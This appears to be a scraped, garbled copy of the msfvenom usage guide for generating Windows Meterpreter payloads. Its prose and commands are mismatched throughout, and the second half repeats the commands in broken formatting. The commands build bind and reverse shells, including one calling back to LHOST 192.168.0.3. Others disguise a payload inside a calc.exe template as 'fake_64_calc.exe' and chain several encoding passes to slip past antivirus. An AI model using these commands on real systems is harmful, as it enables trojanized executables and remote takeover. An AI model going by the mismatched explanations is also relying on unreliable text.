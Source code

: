 To start using msfvenom, first please take a look at the options it supports:
```
./msfvenom -l payloads
```

# How to generate a payload
To see what payloads are available from Framework, you can do:
```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

The -p flag also supports "-" as a way to accept a custom payload:
```
./msfvenom --help-formats
```

Syntax example:
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To see what formats are supported, you can do the following to find out:
```
./msfvenom -l encoders
```

Typically, this is probably how you will use msfvenom:
```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

# How to encode a payload
By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:
```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

To find out what encoders you can use, you can use the -l flag:
```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:
```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

# How to avoid bad characters
The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:
```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```

`

# How to generate a payload

To generate a payload, there are two flags that you must supply (-p and -f):

* **The -p flag: Specifies what payload to generate**

To see what payloads are available from Framework, you can do:

`

`
./msfvenom -l payloads
`

`

* **The -f flag: Specifies the format of the payload**

Syntax example:

`

`
./msfvenom -p windows/meterpreter/bind_tcp -f exe
`

`
./msfvenom --help-formats
`

`
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
`

`
./msfvenom -l encoders
`

`
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
`

`
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
`

`
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
`

`
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
`

`
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
`

